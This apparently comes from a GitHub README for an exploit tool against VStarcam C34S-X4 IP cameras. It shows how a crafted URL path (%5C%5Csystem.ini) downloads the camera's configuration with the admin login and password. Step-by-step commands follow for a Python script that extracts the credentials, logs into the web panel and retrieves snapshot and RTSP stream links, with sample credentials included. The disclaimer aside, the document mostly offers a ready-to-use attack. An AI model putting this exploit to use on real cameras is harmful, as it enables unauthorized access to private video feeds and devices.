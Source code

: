 ## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>
![alt text](https://github.com/Retr0-code/auth-treversal/blob/main/Images/MozilaV.png)
<br>
Or you can use
<br>

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

<br>
and than read as text downloaded file.
<br>
![alt text]()
<br>
3) Now you can log in to web-panel.
<br>
![alt text]()
Or you can use 
<br>

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

<br>
and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>
![alt text]()

